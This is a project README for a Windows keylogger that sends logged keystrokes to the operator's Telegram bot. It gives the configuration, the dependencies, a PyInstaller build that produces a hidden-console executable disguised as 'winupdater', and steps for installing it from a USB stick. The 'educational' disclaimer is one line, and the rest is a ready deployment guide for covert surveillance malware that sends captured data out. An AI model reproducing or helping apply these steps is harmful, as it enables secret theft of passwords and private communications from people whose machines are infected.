 # 🛡️ Windows Keylogger with Telegram Notifications (Monolith Version)

> ⚠️ **Disclaimer**: This project is intended strictly for educational purposes. Do not use it on any computer without the owner's explicit permission.

## 📦 Overview

- This is a monolithic version of a keylogger for **Windows** that periodically sends logged keystrokes to your **Telegram** chat using your own bot.

- Final build must be compiled on **Windows** using PyInstaller.

---

## ⚙️ Configuration

- Open the `logger_bot.py` file and set the following values:

```python
# ===== Configuration =====
TELEGRAM_BOT_TOKEN = "your_bot_token"
TELEGRAM_CHAT_ID = your_chat_id_as_integer

SEND_INTERVAL = 3600  # frequency of notification sending in seconds
```

---

## 🧱 Build Instructions

### 1. Install Python for Windows

- Visit: https://www.python.org/downloads/windows/
- Download the latest version (e.g., Python 3.12.x Windows installer 64-bit)
- Run the installer and **check** the box: `Add Python to PATH`
- Click **Install Now**

---

### 2. Open Command Prompt

- Press `Win + R`, type `cmd`, and hit Enter
- (Optional) Create and activate a virtual environment:

```cmd
python -m venv venv
venv\Scripts\activate
```

- Install dependencies:

```cmd
pip install pyinstaller pynput python-telegram-bot psutil
```

---

### 3. Build the executable

- In the project folder, run:

```cmd
pyinstaller --noconsole --onefile --name winupdater logger_bot.py
```

- After successful build, your `.exe` file will appear in the `dist/` folder.

---

### 4. Copy to USB

- Copy the following 3 files to a USB stick:

- `install.bat`
- `uninstall.bat`
- `winupdater.exe` (from `dist/` folder)

---

## 🚀 Usage

- Run `install.bat` to install the keylogger and start sending logs to your Telegram chat via the bot.
- To **fully uninstall**, simply run `uninstall.bat`.

---

## 💡 Final Notes

- Creating a Telegram bot is easy — search for `@BotFather` in Telegram and follow the instructions.  
- This keylogger was built specifically for **Windows** and may require adjustments for non-standard environments.

---

## 🐧 Linux Note

> That said — I **highly recommend** trying out Linux if you haven’t already 😉

